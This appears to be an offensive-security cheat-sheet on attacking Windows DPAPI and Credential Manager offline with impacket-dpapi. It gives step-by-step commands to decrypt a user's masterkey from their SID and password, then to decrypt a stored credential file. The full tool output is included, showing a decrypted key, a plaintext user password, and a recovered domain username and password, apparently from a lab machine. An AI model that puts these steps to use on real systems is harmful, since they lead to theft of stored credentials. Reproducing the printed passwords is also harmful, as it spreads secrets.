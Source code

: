 # DPAPI Exploitation

## Attacking Credential Manager Offline using impacket-dpapi

* We need to grab 3 things
  - The user SID
  - The Credential File(s) (Stored in %USERPROFILE%\AppData\Roaming\Microsoft\Credentials)
  - The Users Password

1. First we need to extract the key

    ```bash
    impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password  NightT1meP1dg3on14
    ```
    ```bash
    # Example
    impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password  NightT1meP1dg3on14
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 08949382-134f-4c63-b93c-ce52efc0aa88
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
   ```
2. That will give us the key to decrypt the credential vault

    ```bash
    impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb0320061fd5355fea2907f9cf879d10c9f329c77c4fd0b9bf83a9e240ce2b8a9dfb92a0d15969ccae6f550650a83
    ```
    ```bash
    Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-01-29 12:55:19+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=Jezzas_Account
Description : 
Unknown     : 
Username    : jeremy.combs
Unknown     : qT3V9pLXyN7W4m
    ```
